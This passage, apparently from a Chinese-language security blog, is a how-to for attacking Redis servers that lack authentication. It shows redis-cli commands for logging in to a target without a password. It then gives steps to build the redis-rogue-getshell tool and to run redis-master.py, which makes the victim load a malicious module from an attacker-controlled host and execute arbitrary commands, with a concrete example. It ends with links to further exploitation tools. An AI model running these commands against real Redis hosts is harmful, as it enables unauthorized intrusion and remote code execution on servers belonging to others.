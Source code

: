     使用 redis-cli 命令直接远程免密登录 redis 主机

```
# 无密码登录命令
redis-cli -h 目标主机IP
# 有密码登录命令
redis-cli -h 目标主机IP -p 端口6379 -a 登录密码
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa46YWpg5qbJCl7IrsTr8ST0GcMQtia8DTB53o393oDMmtlVw6AkSk0OQ/640?wx_fmt=png)

    如果可以连接说明存在未授权访问漏洞

**linux 安装 redis-getShell 工具**

```
git clone https://github.com/vulhub/redis-rogue-getshell.git
cd RedisModulesSDK/
make
//克隆成功后使用cd命令切换到RedisModulesSDK 使用 make 命令进行编译，编译后回到 redis-rogue-getshell/ 目录下
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUauiaUWmFoamrZwpbp5iaecyCSoqq32eeibOxanMJ8xpZOoJwFH31WrdMkQ/640?wx_fmt=png)

    利用此工具进行 getshell，执行任意命令

```
# 工具命令格式：
python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "要执行的命令"
# 工具命令示例：
python3 redis-master.py -r 192.168.126.130 -p 6379 -L 192.168.126.128 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUaiaATKGIsD80ALeVhouX82bfs5g3jaC97PtfN8ictGrh6yhhJu9qiaQ5Bw/640?wx_fmt=png)

**利用工具下载地址** (https://github.com/n0b0dyCN/redis-rogue-server)

**最后贴一个未授权访问漏洞的利用工具** (下载地址: https://github.com/joaomatosf/jexboss/archive/master.zip)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCokMqhbRcU8I4mRYib8zsUa8PuaayXrVMIAQHia6VCUgrddyqiarbjt0ZAKSXXfQ8ysbAIvSmLbEs6g/640?wx_fmt=png)